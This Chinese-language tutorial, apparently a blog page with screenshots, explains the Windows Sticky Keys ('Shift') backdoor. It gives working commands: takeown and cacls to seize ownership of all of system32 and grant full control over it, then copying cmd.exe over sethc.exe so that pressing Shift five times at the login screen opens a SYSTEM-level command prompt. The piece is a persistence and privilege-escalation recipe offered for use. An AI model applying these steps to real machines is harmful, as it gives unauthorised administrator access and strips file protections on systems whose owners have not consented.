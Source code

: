 # **Shift**快捷键的介绍                                   [ ](af://n3)

Windows的粘滞键是 C:\windows\system32\sethc.exe 的程序，  它本是为不方便按组合键的人设计的， Windows系统按5下shift后， Windows就执行了system32下的sethc.exe， 也就是启用了粘滞键

![img](https://image.201068.xyz/assets/clip_image004-168389726300018.gif)

查看此程序的运行权限发现是当前用户

![img](https://image.201068.xyz/assets/clip_image006.gif)

但是当我们未登陆系统(停留在登陆界面)的时候 系统还不知道我们将以哪个用户登陆,所以在这个时候连续按5次 shift后的话系统将会以system用户(具有管理员级别的权限)来运行sethc.exe这个程序

![img](https://image.201068.xyz/assets/clip_image007-168389726300019.jpg)

## **Shift**后门原理                                      [ ](af://n16)

我们可以把cmd.exe这个程序更名称sethc.exe替换掉在登陆界面的时候我们连续按下5吃shift键系统以system权限 就会运行我们的cmd.exe那么我们的cmd.exe就具有了管理员权限了

## **Shift**后门制作                                      [ ](af://n19)

### 1、在命令行行执行以下命令， 为复制cmd.exe为sethc.exe

```
 copy C:\WINDOWS\system32\cmd.exe C:\windows\system32\sethc.exe  
```

但是会提示拒绝访问

![img](https://image.201068.xyz/assets/clip_image008.jpg)

### 2、需要更改文件权限， 如下命令

 

```
takeown /f c:\windows\system32\*.*  /a /r /d y  #注释： 强制将当前目录下的所有文件及文件夹、子文件 夹下的所有者更改为管理员组 (administrators)

cacls c:\windows\system32\*.* /T /E /G administrators:F  #注释：在当前目录下的文件、子文件夹的 NTFS权限上添加管理员组(administrators)完全控制权限(并不删除原有所有NTFS权限设置)  
```

![img](https://image.201068.xyz/assets/clip_image009.jpg)

### 3、执行后就可以进行【 1】步骤的操作的， 成功执行

![img](https://image.201068.xyz/assets/clip_image011.gif)

### 4、在未登陆的情况下按下5次Shift

![img](https://image.201068.xyz/assets/clip_image012.jpg)